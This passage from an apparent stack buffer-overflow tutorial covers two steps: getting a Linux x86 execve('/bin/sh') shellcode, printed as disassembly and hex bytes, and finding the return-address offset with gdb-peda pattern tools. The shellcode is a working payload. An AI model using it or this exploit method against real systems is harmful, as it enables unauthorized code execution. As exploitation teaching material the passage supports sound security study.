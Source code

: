 3. Get a shellcode
   We need a shellcode that creates a shell for a Linux x86 system.
   We found [this one](http://shell-storm.org/shellcode/files/shellcode-811.php):

```shell
# Title:	Linux x86 execve("/bin/sh") - 28 bytes

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80

# \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

4. Find the offset

Lets find the offset, while inserting a bigger input than the buffer can receive.
We would overwrite the return address. By comparing EIP content and the input, it gives us the offset index.

Peda has some useful tools to get the offset easily:

```shell
(gdb-peda) pattern create 200 input
> Writing pattern of 200 chars to filename "input"

(gdb-peda) run < input
> Stopped reason: SIGSEGV
  0x41414a41 in ?? ()
  EIP: 0x41414a41 ('AJAA')

(gdb-peda) pattern offset AJAA
> AJAA found at offset: 80

# or
(gdb-peda) pattern offset $pc
> 1094797889 found at offset: 80

# or
(gdb-peda) pattern search
> Registers contain pattern buffer:
    EIP+0 found at offset: 80       <----- Return address overwrited
    (...)


```
